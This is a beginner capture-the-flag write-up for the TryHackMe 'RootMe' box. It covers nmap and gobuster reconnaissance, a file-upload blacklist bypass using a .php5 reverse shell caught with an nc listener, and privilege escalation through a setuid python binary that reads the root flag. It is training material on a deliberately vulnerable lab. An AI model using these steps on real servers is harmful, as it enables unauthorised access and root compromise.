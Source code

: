 # RootMe
> A ctf for beginners, can you root me?

[RootMe](https://www.tryhackme.com/room/rrootme) is created by
[ReddyyZ](https://www.tryhackme.com/p/ReddyyZ).

## Reconnaissance

Results of nmap scan:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times
will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 19:33 EDT
Nmap scan report for 10.10.11.81
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
```

We see that port 22 and 80 are open. The web server is running Apache version
2.4.29. 

I navigated to the web server in my browser and did not find anything
interesting in the source code or within robots.txt file. Time to run gobuster
to search for hidden directories.

```
$ gobuster dir -u http://10.10.11.81 -w /usr/share/wordlists/dirb/common.txt|
tee gobuster_scan.txt         1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.81
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/22 19:36:03 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.11.81/css/]
/index.php            (Status: 200) [Size: 616]                              
/js                   (Status: 301) [Size: 307] [--> http://10.10.11.81/js/] 
/panel                (Status: 301) [Size: 310] [--> http://10.10.11.81/panel/]
/server-status        (Status: 403) [Size: 276]                                
/uploads              (Status: 301) [Size: 312] [-->
http://10.10.11.81/uploads/]
                                                                                 
===============================================================
2021/03/22 19:37:38 Finished
===============================================================
```

## Exploitation

From the gobuster scan we see there are a /panel and /uploads folder. We can
upload files in /panel and they will be saved in /uploads. Meaning, we can
easily get a reverse shell!

I tried uploading a .pl (perl) and .php reverse shell, but the former did not
run and the latter is blocked by a blacklist filter.

After reading this post [on bypassing file upload
restrictions](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
I found a solution.

I editted my php reverse shell to have a .php5 file extension and was able to
get a reverse shell.

```
$ mv php-revshell.php php-revshell.php5
```

```
$ nc -nlvp 4444                                      
listening on [any] 4444 ...
connect to [10.2.8.243] from (UNKNOWN) [10.10.11.81] 35172
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020
x86_64 x86_64 x86_64 GNU/Linux
 23:52:35 up 24 min,  0 users,  load average: 0.00, 0.03, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Finding user.txt

From here is was simple to find the user flag:

```
$ find / -iname "user.txt" 2>/dev/null 
/var/www/user.txt
$ cd /var/www
$ ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 Aug  4  2020 .
drwxr-xr-x 14 root     root     4096 Aug  4  2020 ..
-rw-------  1 www-data www-data  129 Aug  4  2020 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4  2020 html
-rw-r--r--  1 www-data www-data   21 Aug  4  2020 user.txt
$ cat user.txt
XXX-REDACTED-XXX
```

## Privilege Escalation

First I [stabilized my reverse
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/) so it's not as wonky.

Search for files that have the setuid bit set:

```
www-data@rootme:/var/www$ find / -perm -u=s -type f 2>/dev/null
```

There's a ton of output, but the file that immediately stood out to me was
/usr/bin/python.

Using [this GTFObin
syntax](https://gtfobins.github.io/gtfobins/python/#file-read) we can read the
root file!

```
www-data@rootme:/var/www$ python -c 'print(open("/root/root.txt").read())'
XXX-REDACTED-XXX
```

That was a fun box!
